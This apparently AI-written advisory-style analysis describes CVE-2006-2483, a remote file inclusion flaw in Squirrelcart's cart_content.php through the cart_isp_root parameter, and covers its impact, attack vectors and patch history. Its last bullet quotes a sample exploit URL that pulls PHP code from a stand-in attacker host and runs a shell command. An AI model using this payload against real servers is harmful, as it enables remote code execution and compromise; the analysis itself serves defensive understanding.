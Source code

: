 Based on the provided content, here's an analysis of CVE-2006-2483:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) issue present in Squirrelcart versions 2.2.2 and prior. This means that the application is vulnerable to including and executing remote files.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The core vulnerability is that Squirrelcart improperly handles file inclusion, allowing an attacker to specify a remote file (via URL) to be included and executed by the server. This is specifically present in `cart_content.php` and is related to the `cart_isp_root` parameter.
*   The application's server configuration also plays a role, specifically if the server is configured to support including files via URLs.

**Impact of Exploitation:**

*   **Remote Code Execution (RCE):** By exploiting the RFI vulnerability, an attacker can force the server to execute arbitrary PHP code that they control. This can allow an attacker to completely compromise the server by installing malware, stealing sensitive data, or using the server as a launchpad for other attacks.
*   The provided information also notes that a compromised system might exhibit symptoms such as having unauthorized PHP files or `.htaccess` files inside the "sc\_images" folder, as these can be placed via the RFI exploit.

**Attack Vectors:**

*   **HTTP Request:** The primary attack vector involves crafting a malicious HTTP request to the vulnerable `cart_content.php` script. The attacker would use the `cart_isp_root` parameter to specify a remote file containing malicious PHP code.
*   **Publicly Accessible Web Server:** The application needs to be accessible via the internet, or at least the vulnerable script.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable web server.
*   **Knowledge of the vulnerable parameter and script:** The attacker needs to know how to craft a malicious URL and to understand the structure of the vulnerable part of the application.
*   **Remote File Hosting:** The attacker needs to have a location to host the malicious PHP code that will be included and executed by the vulnerable server.

**Additional Details:**

*   The vulnerability was discovered and reported on 5/15/2006.
*   The vendor provided a patch, but had to issue a revised patch because it caused issues.
*   The exploit-db entry provides a sample exploit URL: `/cart_content.php?cart_isp_root=http://yourhost/cmd.gif?cmd=ls` showing how to use the `cart_isp_root` parameter to include remote files.